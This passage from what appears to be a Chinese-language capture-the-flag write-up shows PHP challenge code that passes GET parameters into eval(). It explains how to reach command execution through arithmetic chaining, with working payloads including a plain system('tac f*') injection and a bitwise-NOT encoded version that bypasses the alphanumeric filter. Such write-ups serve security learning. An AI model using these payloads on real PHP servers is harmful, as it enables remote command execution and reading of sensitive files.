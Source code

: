 ```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/^\W+$/', $v3)){
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

v3正则匹配非字母数字下划线的字符

要求v1、v2为数字

然后`eval("return $v1$v3$v2;");`

至于要如何rce呢，可以利用到运算==

像1+phpinfo()+1，无论结果如何，都要先执行phpinfo()这个函数，然后再进行相加
同理，可传入：（如果用+记得url编码）

```
v1=1&v2=1&v3=-system('tac f*')-
```

不过得绕过正则，这里可利用yu师傅的脚本构造：[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）_羽的博客-异或绕过](https://blog.csdn.net/miuzzx/article/details/109143413)

```
?v1=1&v2=1&v3=-(~%8C%86%8C%8B%9A%92)(~%8B%9E%9C%DF%99%D5)-
```

### 143

```php
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\+|\-|\.|\_|\||\$|\{|\}|\~|\%|\&|\;/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```

过滤了~，改用异或
